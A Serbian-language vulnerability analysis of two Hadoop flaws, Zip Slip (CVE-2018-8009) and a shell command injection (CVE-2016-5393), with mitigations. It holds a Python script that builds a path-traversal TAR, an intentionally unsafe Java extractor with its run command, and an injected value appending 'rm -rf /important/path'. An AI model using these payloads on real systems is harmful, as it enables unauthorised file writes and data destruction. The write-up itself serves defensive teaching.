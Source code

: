 ## Zip Slip (CVE-2018-8009) - analiza

Zip Slip je ranjivost koja se ispoljava prilikom obrade arhivskih fajlova, npr. ZIP i TAR. Ova ranjivost omogućava napadačima da iskoriste nebezbednu logiku raspakivanja fajlova kako bi zapisali zlonamerni sadržaj na neautorizovane lokacije u fajl sistemu.

Glavni uzrok ranjivosti leži u tome što aplikacija ne proverava putanje fajlova unutar arhive. Napadači mogu kreirati arhive koje sadrže fajlove sa apsolutnim putanjama (npr. `C:/Windows/System32`) ili relativnim putanjama koje koriste `../` za vraćanje u prethodne direktorijume. Tokom procesa raspakivanja, ako aplikacija slepo veruje ovim putanjama, može se desiti da zlonamerni fajlovi budu upisani van ciljnog direktorijuma, čime se ugrožava bezbednost sistema.

Primeri pajton skripte za kreiranje malicioznog TAR fajla:
```python
import tarfile
import io

def create_malicious_tar(tar_path, target_file_path, content):
    with tarfile.open(tar_path, "w") as tar:
        # Create a file-like object from the content (bytes)
        fileobj = io.BytesIO(content.encode('utf-8'))
        
        # Create the TarInfo object with the path where you want to extract the file
        tarinfo = tarfile.TarInfo(name=target_file_path)
        tarinfo.size = len(content)  # Set the size of the file

        # Add the file to the TAR archive
        tar.addfile(tarinfo, fileobj=fileobj)

    print(f"Malicious TAR created at: {tar_path}")

# Specify where the file should be unpacked
target_file_path = "C:\\Windows\\System32\\malicious.txt"  # Example of absoulute path
# target_file_path = ..\\..\\malicious.txt"  # Example of relative path
# target_file_path = extracted\\malicious.txt"  # Example of safe path

tar_path = "malicious.tar"

# The content of the file to be packed in the TAR file
content = "This is a malicious file that will be unpacked to a specific directory."

# Create the malicious TAR
create_malicious_tar(tar_path, target_file_path, content)
```

Ranjivost se kod Hadoop sistema moze eksploatisati tako sto se maliciozni TAR fajl prebaci u HDFS i njegovo ekstraktovanje izvrsi pomocu Java programa koji nebezbedno rukuje putanjama na koje treba da se ekstraktuje TAR fajl. Takav Java program je dat u nastavku:

```java
import org.apache.commons.compress.archivers.tar.TarArchiveInputStream;
import org.apache.hadoop.fs.FileSystem;
import org.apache.hadoop.fs.Path;
import org.apache.hadoop.conf.Configuration;
import org.apache.hadoop.fs.FSDataInputStream;

import java.io.IOException;
import java.io.InputStream;
import java.io.FileOutputStream;
import java.io.BufferedOutputStream;
import java.io.File;

public class ExploitHadoopTar {

    public static void main(String[] args) throws IOException {
        if (args.length != 1) {
            System.out.println("Usage: HadoopTarExploit <path-to-tar-file>");
            System.exit(1);
        }

        // Get TAR file path from arguments
        String tarFilePath = args[0];

        // Configuration for Hadoop FileSystem (you may need to adjust this based on your Hadoop setup)
        Configuration conf = new Configuration();
        FileSystem fs = FileSystem.get(conf);

        // Open the malicious TAR file from HDFS
        Path hdfsTarFilePath = new Path(tarFilePath);  // HDFS path
        try (FSDataInputStream tarFileStream = fs.open(hdfsTarFilePath);
             TarArchiveInputStream tarInputStream = new TarArchiveInputStream(tarFileStream)) {

            // Iterate over the TAR entries and extract them
            org.apache.commons.compress.archivers.tar.TarArchiveEntry entry;
            while ((entry = tarInputStream.getNextTarEntry()) != null) {
                String entryName = entry.getName();
                System.out.println("Extracting: " + entryName);

                // Create the local extraction file
                File extractionFile = new File(entryName);  // Local path (relative to current directory or absolute path)

                // If the entry is a directory, create the directory on the local filesystem
                if (entry.isDirectory()) {
                    extractionFile.mkdirs();
                    continue;  // Skip to the next entry
                }

                // Ensure the parent directory exists
                File parentDir = extractionFile.getParentFile();
                if (parentDir != null && !parentDir.exists()) {
                    parentDir.mkdirs();
                }

                // Create the output stream to write the extracted file locally
                try (BufferedOutputStream outputStream = new BufferedOutputStream(new FileOutputStream(extractionFile))) {
                    byte[] buffer = new byte[1024];
                    int bytesRead;
                    while ((bytesRead = tarInputStream.read(buffer)) != -1) {
                        outputStream.write(buffer, 0, bytesRead);
                    }
                }

                System.out.println("Extracted to: " + extractionFile.getAbsolutePath());
            }

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
Pokretanjem ovog Java programa doci ce do raspakivanja TAR fajla na putanje koje su podesene u TAR fajlu bez ikakve provere validnosti tih putanja. Pokretanje se vrsi komandom: `hadoop jar path/to/jar/ExploitHadoopTar.jar ExploitHadoopTar path/to/tar/on/hdfs/malicious.tar`.


### Bezbednosne kontrole

1. Validacija raspakovanih putanja prilikom raspakivanja
2. Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ogranicenjima za pisanje i citanje

#### Validacija raspakovanih putanja prilikom raspakivanja
Validacija putanja se ogleda u proveri da li je putanja apsolutna i da li sadrzi `../` za povratak u roditeljski direktorijum. U nastavku je prikazana funkcija za validaciju i izmenjeni deo koda iz prethodnog primera:
```java
private static boolean isPathValid(String entryName) {
    // Check if the path is absolute
    File entryFile = new File(entryName);
    if (entryFile.isAbsolute()) {
        return false;
    }

    // Check if the path contains '../'
    String normalizedPath = entryFile.getPath().replace("\\", "/"); // Normalize path for cross-platform compatibility
    if (normalizedPath.contains("../")) {
        return false;
    }

    return true;
}

...

// Add check in example code
if (!isPathValid(entryName)) {
    System.out.println("Invalid path: " + entryName);
    continue;
}
```

#### Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ogranicenjima za pisanje i citanje
Celi problem se moze preduprediti time sto ce se Hadoop aplikacija pokrenuti tako da nema dozvole za pisanje i citanje na bilo kojoj putanji u fajl sistemu. Potrebno je kreirati korisnika koji ce imati dozvoljeno pisanje i citanje samo iz odredjenih fajlova. Citanje treba biti dozvoljeno u okviru foldera gde je instaliran Hadoop radi mogucnosti citanja konfiguracionih fajlova kao i pristupa podacima u HDFS. Putanje za upisivanje novih podataka je potrebno podesiti po potrebama sistema. Ukoliko se koristi Hadoop MapReduce sistem, potrebno je tacno definisati iz kog direktorijuma je dozvoljeno citanje ulaznih podataka kao i u koji direktorijum je dozvoljeno upisivanje rezultata. Takva provera je potrebna samo ukoliko se barata podacima sa lokalnog racunara, a ne direktno iz HDFS. 

Ovakav sistem zastite je sproveden na nivou operativnog sistema pa se nacini implementacije mogu razlikovati. Sustina je da se kreira novi korisnik u operativnom sistemu i da mu se dodele dozvnoljeni direktorijume u koje moze da upisuje i cita fajlove, a da se ostali zabrane. Nakon toga je potrebno Hadoop pokrenuti sa permisijama tog korisnika.

## Izvrsavanje proizvojlnih komandi sa permisijama HDFS servisa (CVE-2016-5393) - analiza

Jedna od pomoćnih klasa (`hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java`) koja se bavi obradom shell komandi radi pod pretpostavkom da komanda neće imati neke od specijalnih karaktera u sebi. Ovakva pretpostavka dovodi do toga da se prilikom izvršavanja bash komande može ubaciti maliciozna bash komanda. Napad koji eksploatiše ovu ranjivost je command injection napad koji se može izvršiti zbog neadekvatne obrade navodnika u komandi. Da bi se napad izvršio, korisnik mora biti autentifikovan i mora mu biti omogućeno korišćenje HDFS servisa.

Primer maliciozne komande bi bio `rm -rf /some/path $userInput` gde `userInput` sadrži `" ; rm -rf /important/path"` i gde bi rezultat bio komanda `rm -rf /some/path ; rm -rf /important/path` koja bi obrisala i `/some/path` i `/important/path`. Ovakvim napadom je moguće izvršiti bilo koju komandu pod permisijama HDFS servisa.

#### Bezbednosne kontrole
Potrebno je sanitizovati korisnički unos i ne dozvoliti da se korisnički unos smatra komandom. To je učinjeno sledećom funkcijom ([fix](https://github.com/apache/hadoop/pull/119) kada je ranjivost popravljena i dodata funkcija za sanitizaciju):
```java
static String bashQuote(String arg) {
    StringBuilder buffer = new StringBuilder(arg.length() + 2);
    buffer.append('\'');
    buffer.append(arg.replace("'", "'\\''"));
    buffer.append('\'');
    return buffer.toString();
}
```
Ovakva obrada dovodi do toga da se korisnički unos transformiše u string. Na početak i kraj korisničkog unosa se dodaju `'` čime se obezbeđuje da se korisnički unos smatra stringom. Ako originalni string sadrži jedan ili više apostrofa, oni se zamenjuju nizom `'\\''`. Ovaj izraz izlazi iz trenutnog navodnika, dodaje karakter `'` kao deo stringa, a zatim ponovo ulazi u režim stringa. Time se postiže da se kompletan korisnički unos transformiše u string i onemogućava njegovo izvršenje.

Korišćenjem ove funkcije prethodna maliciozna komanda se pretvara u `rm -rf /some/path ' ; rm -rf /important/path'` i nije je moguće izvršiti.

Ranjivost je prisutna u Hadoop verzijama: `2.6.x` pre `2.6.5` i `2.7.x` pre `2.7.3`. Ranjivost je popravljena u Hadoop verzijama: `2.8.0`, `2.7.3`, `2.6.5`, `3.0.0-alpha1` pa se kao mitigacija preporučuje prebacivanje na navedene verzije.
